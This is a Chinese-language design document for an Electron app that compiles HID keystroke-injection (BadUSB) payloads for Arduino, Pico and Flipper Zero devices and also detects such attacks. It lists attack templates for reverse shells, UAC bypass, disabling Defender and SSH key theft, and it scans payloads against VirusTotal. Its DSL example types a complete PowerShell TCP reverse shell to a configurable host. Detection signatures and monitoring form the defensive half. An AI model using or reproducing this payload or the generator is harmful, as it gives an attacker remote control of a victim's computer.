



## 1. 架构设计



## 2. 技术描述

### 2.1 技术栈选择
- **前端框架**: Electron@28 + React@18 + TypeScript
- **构建工具**: Vite@5 + electron-builder
- **UI框架**: TailwindCSS@3 + Framer Motion (动画)
- **状态管理**: Zustand (轻量状态管理)
- **代码编辑器**: @monaco-editor/react
- **数据可视化**: Recharts
- **图标**: Lucide React

### 2.2 后端技术 (Node.js 主进程)
- **HID设备访问**: node-hid + usb
- **全局输入监听**: iohook (全局键盘鼠标钩子)
- **数据库**: better-sqlite3 (同步高性能SQLite)
- **Windows服务**: node-windows
- **输入回放**: robotjs
- **YAML解析**: js-yaml
- **DSL解析**: 自定义递归下降解析器
- **HTTP客户端**: axios
- **文件系统**: fs-extra

### 2.3 项目目录结构
```
d:\trae-project\0508-1371/
├── electron/
│   ├── main/
│   │   ├── index.ts              # 主进程入口
│   │   ├── ipc/                  # IPC通信处理
│   │   ├── compiler/             # DSL编译器
│   │   │   ├── parser.ts         # 语法解析器
│   │   │   ├── lexer.ts          # 词法分析器
│   │   │   └── ast.ts            # AST定义
│   │   ├── generators/           # 设备代码生成器
│   │   │   ├── arduino.ts        # Arduino Leonardo
│   │   │   ├── pico.ts           # Raspberry Pi Pico
│   │   │   ├── badusb.ts         # BadUSB
│   │   │   └── flipper.ts        # Flipper Zero
│   │   ├── detection/            # 检测模块
│   │   │   ├── hid-listener.ts   # HID输入监听
│   │   │   ├── analyzer.ts       # 异常行为分析
│   │   │   └── signatures.ts     # 攻击签名匹配
│   │   ├── services/             # 服务管理
│   │   │   ├── windows-service.ts # Windows服务
│   │   │   └── autostart.ts      # 开机自启
│   │   ├── database/             # 数据层
│   │   │   ├── schema.sql        # 数据库schema
│   │   │   └── db.ts             # 数据库操作
│   │   ├── playback/             # 回放模块
│   │   │   └── player.ts         # 输入序列播放器
│   │   ├── virustotal/           # VirusTotal模块
│   │   │   └── client.ts         # VT API客户端
│   │   └── signatures/           # 签名库管理
│   │       ├── manager.ts        # 签名管理器
│   │       └── default-signatures.yaml
│   └── preload/
│       └── index.ts              # 预加载脚本
├── src/
│   ├── renderer/                 # 渲染进程(React)
│   │   ├── App.tsx
│   │   ├── main.tsx
│   │   ├── store/                # Zustand状态
│   │   ├── pages/                # 页面组件
│   │   ├── components/           # 通用组件
│   │   ├── hooks/                # 自定义Hooks
│   │   ├── utils/                # 工具函数
│   │   ├── types/                # TypeScript类型
│   │   └── styles/               # 全局样式
│   └── shared/                   # 前后端共享代码
│       ├── types.ts              # 共享类型
│       ├── constants.ts          # 常量定义
│       └── templates/            # 攻击模板定义
│           ├── windows-reverse-shell.dsl
│           ├── macos-privilege-escalation.dsl
│           ├── linux-ssh-steal.dsl
│           ├── bypass-uac.dsl
│           ├── disable-defender.dsl
│           └── usb-boot-execute.dsl
├── public/
│   └── assets/
├── package.json
├── tsconfig.json
├── vite.config.ts
├── electron-builder.json
└── tailwind.config.js
```

## 3. 路由定义

| 路由路径 | 页面名称 | 用途 |
|-------|---------|------|
| /dashboard | 首页仪表板 | 显示检测状态、攻击概览、系统资源 |
| /payload/generator | 载荷生成页 | DSL编辑器、脚本编写、实时预览 |
| /payload/templates | 模板库页 | 攻击模板浏览、参数配置、一键应用 |
| /payload/compile | 设备编译页 | 多设备格式选择、编译、下载 |
| /detection/monitor | 检测监控页 | 实时HID监控、异常告警展示 |
| /detection/events | 事件查询页 | 攻击历史日志、搜索筛选、详情查看 |
| /service/control | 服务控制页 | Windows服务安装、启动停止、配置 |
| /tools/playback | 分析工具页 | 输入序列回放、VT扫描 |
| /signatures | 签名管理页 | 签名库查看、更新、自定义规则 |
| /settings | 系统设置页 | API配置、阈值调整、系统参数 |

## 4. API 定义 (IPC 通信)

### 4.1 TypeScript 类型定义

```typescript
// 共享类型定义
interface DSLAnalysisResult {
  valid: boolean;
  errors: DSLParseError[];
  ast: ASTNode | null;
  compiledCode: string;
}

interface DeviceCompileResult {
  success: boolean;
  outputPath: string;
  outputType: 'bin' | 'json' | 'txt' | 'uf2';
  fileSize: number;
  errors: string[];
}

interface HIDDevice {
  vendorId: number;
  productId: number;
  manufacturer: string;
  product: string;
  serialNumber: string;
  path: string;
  firstSeen: Date;
}

interface HIDInputEvent {
  id: string;
  timestamp: Date;
  devicePath: string;
  device: HIDDevice;
  type: 'keyboard' | 'mouse' | 'other';
  keyCode?: number;
  keyName?: string;
  isModifier?: boolean;
  modifiers?: string[];
  mouseX?: number;
  mouseY?: number;
  rawData: number[];
}

interface DetectionAlert {
  id: string;
  timestamp: Date;
  device: HIDDevice;
  severity: 'low' | 'medium' | 'high' | 'critical';
  reason: string;
  matchedSignatures: string[];
  inputSequence: HIDInputEvent[];
  riskScore: number;
}

interface AttackSignature {
  id: string;
  name: string;
  description: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
  pattern: SignaturePattern;
  createdAt: string;
  updatedAt: string;
}

interface VirusTotalScanResult {
  scanId: string;
  permalink: string;
  positives: number;
  total: number;
  detectionRate: number;
  scans: Record<string, { detected: boolean; result: string }>;
  scanDate: Date;
}

interface WindowsServiceStatus {
  installed: boolean;
  running: boolean;
  autoStart: boolean;
  processId?: number;
  lastStart?: Date;
  logPath: string;
}
```

### 4.2 IPC Channel 定义

| Channel | 方向 | 参数 | 返回值 |
|---------|------|------|--------|
| `dsl:parse` | Renderer→Main | `{ script: string }` | `DSLAnalysisResult` |
| `dsl:compile` | Renderer→Main | `{ script: string, device: string, params: Record<string, string> }` | `DeviceCompileResult` |
| `dsl:templates` | Renderer→Main | - | `AttackTemplate[]` |
| `dsl:template:apply` | Renderer→Main | `{ templateId: string, params: Record<string, string> }` | `string` (生成的DSL脚本) |
| `detection:start` | Renderer→Main | - | `boolean` |
| `detection:stop` | Renderer→Main | - | `boolean` |
| `detection:status` | Renderer→Main | - | `{ running: boolean; deviceCount: number }` |
| `detection:devices` | Renderer→Main | - | `HIDDevice[]` |
| `detection:events` | Main→Renderer | `HIDInputEvent` | - (推送) |
| `detection:alert` | Main→Renderer | `DetectionAlert` | - (推送) |
| `events:query` | Renderer→Main | `{ filter: QueryFilter }` | `DetectionAlert[]` |
| `events:get` | Renderer→Main | `{ id: string }` | `DetectionAlert` |
| `events:delete` | Renderer→Main | `{ id: string }` | `boolean` |
| `events:export` | Renderer→Main | `{ id: string, format: 'json' | 'csv' }` | `string` (文件路径) |
| `service:install` | Renderer→Main | - | `boolean` |
| `service:uninstall` | Renderer→Main | - | `boolean` |
| `service:start` | Renderer→Main | - | `boolean` |
| `service:stop` | Renderer→Main | - | `boolean` |
| `service:status` | Renderer→Main | - | `WindowsServiceStatus` |
| `service:config:set` | Renderer→Main | `{ config: ServiceConfig }` | `boolean` |
| `playback:start` | Renderer→Main | `{ events: HIDInputEvent[], speed: number }` | `boolean` |
| `playback:stop` | Renderer→Main | - | `boolean` |
| `playback:status` | Renderer→Main | - | `{ playing: boolean; progress: number }` |
| `virustotal:scan` | Renderer→Main | `{ filePath: string }` | `VirusTotalScanResult` |
| `virustotal:scan:get` | Renderer→Main | `{ scanId: string }` | `VirusTotalScanResult` |
| `signatures:list` | Renderer→Main | - | `AttackSignature[]` |
| `signatures:update` | Renderer→Main | - | `{ updated: number; fromRemote: boolean }` |
| `signatures:add` | Renderer→Main | `{ signature: AttackSignature }` | `boolean` |
| `signatures:delete` | Renderer→Main | `{ id: string }` | `boolean` |
| `settings:get` | Renderer→Main | - | `AppSettings` |
| `settings:set` | Renderer→Main | `{ settings: AppSettings }` | `boolean` |

## 5. 核心模块架构



## 6. 数据模型

### 6.1 数据库 ER 图



### 6.2 数据库 DDL

```sql
-- 检测到的HID设备表
CREATE TABLE IF NOT EXISTS detected_devices (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    vendor_id TEXT NOT NULL,
    product_id TEXT NOT NULL,
    manufacturer TEXT,
    product_name TEXT,
    serial_number TEXT,
    device_path TEXT UNIQUE NOT NULL,
    first_seen DATETIME DEFAULT CURRENT_TIMESTAMP,
    last_seen DATETIME DEFAULT CURRENT_TIMESTAMP,
    is_blocked INTEGER DEFAULT 0,
    trust_score INTEGER DEFAULT 50,
    UNIQUE(vendor_id, product_id, serial_number)
);

CREATE INDEX IF NOT EXISTS idx_devices_path ON detected_devices(device_path);
CREATE INDEX IF NOT EXISTS idx_devices_vid_pid ON detected_devices(vendor_id, product_id);

-- 输入事件表
CREATE TABLE IF NOT EXISTS input_events (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    device_id INTEGER REFERENCES detected_devices(id),
    alert_id INTEGER REFERENCES detection_alerts(id),
    timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
    event_type TEXT NOT NULL,
    key_code INTEGER,
    key_name TEXT,
    modifiers TEXT,
    mouse_x INTEGER,
    mouse_y INTEGER,
    raw_data TEXT,
    processing_time_ms INTEGER
);

CREATE INDEX IF NOT EXISTS idx_events_device ON input_events(device_id);
CREATE INDEX IF NOT EXISTS idx_events_alert ON input_events(alert_id);
CREATE INDEX IF NOT EXISTS idx_events_timestamp ON input_events(timestamp);

-- 检测告警表
CREATE TABLE IF NOT EXISTS detection_alerts (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    device_id INTEGER REFERENCES detected_devices(id),
    timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
    severity TEXT NOT NULL CHECK(severity IN ('low', 'medium', 'high', 'critical')),
    reason TEXT NOT NULL,
    risk_score INTEGER DEFAULT 0,
    input_sequence_hash TEXT,
    is_reviewed INTEGER DEFAULT 0,
    review_notes TEXT,
    reviewed_at DATETIME
);

CREATE INDEX IF NOT EXISTS idx_alerts_device ON detection_alerts(device_id);
CREATE INDEX IF NOT EXISTS idx_alerts_severity ON detection_alerts(severity);
CREATE INDEX IF NOT EXISTS idx_alerts_timestamp ON detection_alerts(timestamp);

-- 攻击签名表
CREATE TABLE IF NOT EXISTS attack_signatures (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    signature_id TEXT UNIQUE NOT NULL,
    name TEXT NOT NULL,
    description TEXT,
    severity TEXT NOT NULL,
    pattern_yaml TEXT NOT NULL,
    created_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    updated_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    source TEXT DEFAULT 'local'
);

CREATE INDEX IF NOT EXISTS idx_signatures_sid ON attack_signatures(signature_id);

-- 告警与签名关联表
CREATE TABLE IF NOT EXISTS alert_signatures (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    alert_id INTEGER REFERENCES detection_alerts(id),
    signature_id INTEGER REFERENCES attack_signatures(id),
    matched_at DATETIME DEFAULT CURRENT_TIMESTAMP
);

CREATE INDEX IF NOT EXISTS idx_alert_sig_alert ON alert_signatures(alert_id);
CREATE INDEX IF NOT EXISTS idx_alert_sig_sig ON alert_signatures(signature_id);

-- 编译载荷表
CREATE TABLE IF NOT EXISTS compiled_payloads (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    original_script TEXT,
    target_device TEXT NOT NULL,
    output_path TEXT,
    file_hash TEXT,
    compiled_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    params_json TEXT
);

-- VirusTotal扫描结果表
CREATE TABLE IF NOT EXISTS virustotal_scans (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    payload_id INTEGER REFERENCES compiled_payloads(id),
    scan_id TEXT NOT NULL,
    permalink TEXT,
    positives INTEGER DEFAULT 0,
    total INTEGER DEFAULT 0,
    detection_rate REAL DEFAULT 0,
    scans_json TEXT,
    scan_date DATETIME
);

CREATE INDEX IF NOT EXISTS idx_vt_payload ON virustotal_scans(payload_id);
CREATE INDEX IF NOT EXISTS idx_vt_scan_id ON virustotal_scans(scan_id);

-- 应用设置表
CREATE TABLE IF NOT EXISTS app_settings (
    id INTEGER PRIMARY KEY CHECK (id = 1),
    settings_json TEXT NOT NULL,
    updated_at DATETIME DEFAULT CURRENT_TIMESTAMP
);

-- 初始化默认设置
INSERT OR IGNORE INTO app_settings (id, settings_json) VALUES (1, '{
    "detection": {
        "enabled": true,
        "minTypingSpeedThreshold": 400,
        "shortcutDensityThreshold": 5,
        "shortcutTimeWindowMs": 3000,
        "minInputIntervalVariance": 0.1,
        "mouseEdgeDetection": true,
        "alertCooldownMs": 5000
    },
    "virustotal": {
        "apiKey": "",
        "autoScan": false
    },
    "signatures": {
        "autoUpdate": true,
        "updateUrl": "",
        "checkIntervalHours": 24
    },
    "service": {
        "logLevel": "info",
        "logPath": ""
    }
}');
```

## 7. DSL 语法定义

### 7.1 DSL 关键字

| 关键字 | 说明 | 示例 |
|--------|------|------|
| `DELAY` | 延迟指定毫秒 | `DELAY 500` |
| `STRING` | 输入字符串 | `STRING "notepad"` |
| `ENTER` | 按下回车键 | `ENTER` |
| `GUI` | Windows/Command键 | `GUI r` |
| `WINDOWS` | 同GUI | `WINDOWS r` |
| `COMMAND` | 同GUI(Mac) | `COMMAND space` |
| `CTRL` | Control键 | `CTRL SHIFT ESC` |
| `SHIFT` | Shift键 | `CTRL SHIFT ESC` |
| `ALT` | Alt键 | `ALT F4` |
| `TAB` | Tab键 | `TAB` |
| `ESCAPE` | Escape键 | `ESCAPE` |
| `UP`/`DOWN`/`LEFT`/`RIGHT` | 方向键 | `DOWN 3` (重复3次) |
| `F1-F12` | 功能键 | `F5` |
| `CAPSLOCK`/`NUMLOCK`/`SCROLLOCK` | 锁定键 | `CAPSLOCK` |
| `PRINTSCREEN` | 截图键 | `PRINTSCREEN` |
| `PAUSE` | 暂停键 | `PAUSE` |
| `SPACE` | 空格键 | `SPACE` |
| `BACKSPACE` | 退格键 | `BACKSPACE 5` |
| `DELETE` | 删除键 | `DELETE` |
| `INSERT` | 插入键 | `INSERT` |
| `HOME`/`END` | 行首行尾 | `HOME` |
| `PAGEUP`/`PAGEDOWN` | 翻页键 | `PAGEDOWN` |
| `MOUSE_MOVE` | 移动鼠标 | `MOUSE_MOVE 100 200` |
| `MOUSE_CLICK` | 点击鼠标 | `MOUSE_CLICK left` |
| `REPEAT` | 重复代码块 | `REPEAT 3 { ... }` |
| `IF_OS` | 条件判断 | `IF_OS windows { ... }` |
| `VAR` | 定义变量 | `VAR $IP = "192.168.1.1"` |
| `INCLUDE` | 包含模板 | `INCLUDE "disable-defender"` |

### 7.2 变量参数系统

```dsl
VAR $LHOST = "192.168.1.100"
VAR $LPORT = "4444"

DELAY 1000
GUI r
DELAY 500
STRING "cmd.exe"
ENTER
DELAY 1000
STRING "powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$LHOST',$LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()""
ENTER
```

### 7.3 攻击签名 YAML 格式

```yaml
# 攻击签名定义示例
signatures:
  - id: win-reverse-shell-pattern
    name: "Windows 反向Shell攻击模式"
    description: "检测典型的PowerShell反向Shell命令序列"
    severity: critical
    pattern:
      type: sequence
      events:
        - type: shortcut
          keys: ["GUI", "r"]
          window: 500
        - type: string
          value: "cmd"
          window: 2000
        - type: string
          contains: "powershell"
          window: 5000
        - type: string
          regex: "System\\.Net\\.Sockets\\.TCPClient"
          window: 10000
  
  - id: rapid-shortcut-attack
    name: "快速快捷键攻击"
    description: "检测在短时间内大量使用快捷键的行为"
    severity: high
    pattern:
      type: statistical
      metric: shortcut_density
      threshold: 8
      window: 3000
  
  - id: abnormal-typing-speed
    name: "异常输入速度"
    description: "检测每分钟输入超过400字符的异常输入速度"
    severity: medium
    pattern:
      type: statistical
      metric: typing_speed_cpm
      threshold: 400
      window: 5000
  
  - id: mouse-edge-pattern
    name: "鼠标边缘移动模式"
    description: "检测模拟鼠标快速移动到屏幕角落的行为"
    severity: low
    pattern:
      type: mouse
      movement: edge_corner
      duration: 500
```
